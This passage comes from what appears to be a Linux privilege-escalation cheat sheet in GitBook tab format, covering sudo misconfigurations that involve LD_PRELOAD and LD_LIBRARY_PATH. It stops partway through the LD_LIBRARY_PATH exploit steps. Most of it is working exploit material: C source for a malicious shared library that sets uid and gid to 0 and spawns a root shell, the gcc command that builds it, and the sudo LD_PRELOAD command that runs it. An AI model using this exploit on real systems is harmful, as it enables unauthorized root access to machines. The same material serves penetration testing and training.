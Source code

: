 {% tab title="Exploit" %}
To exploit, we can write a shared library

```c
//Saved as /tmp/privEsc.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
}
```

compile it

```bash
gcc -fPIC -shared -o something.so /tmp/privEsc.c -nostartfiles
```

Then run the sudo binary with `LD_PRELOAD` environement variable

```bash
#Use any command you can run with sudo
sudo LD_PRELOAD=./something.so <COMMAND>

#Example
sudo LD_PRELOAD=./something.so /usr/bin/find
```
{% endtab %}
{% endtabs %}

### LD\_LIBRARY\_PATH

{% tabs %}
{% tab title="Enumerate" %}
the `LD_LIBRARY_PATH` env variable controls the path where libraries are going to be searched.

If `env_keep+=LD_LIBRARY_PATH` is explicitly defined in the `sudo -l` output and you can call some command with sudo, you can escalate your privileges.

```bash
$ sudo -l

env_reset, env_keep+=LD_LIBRARY_PATH
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/find
```
{% endtab %}

{% tab title="Exploit" %}
To abuse it we can do as follow

First, print the shared libraries of the sudo program. We will take `/usr/bin/find` as an example
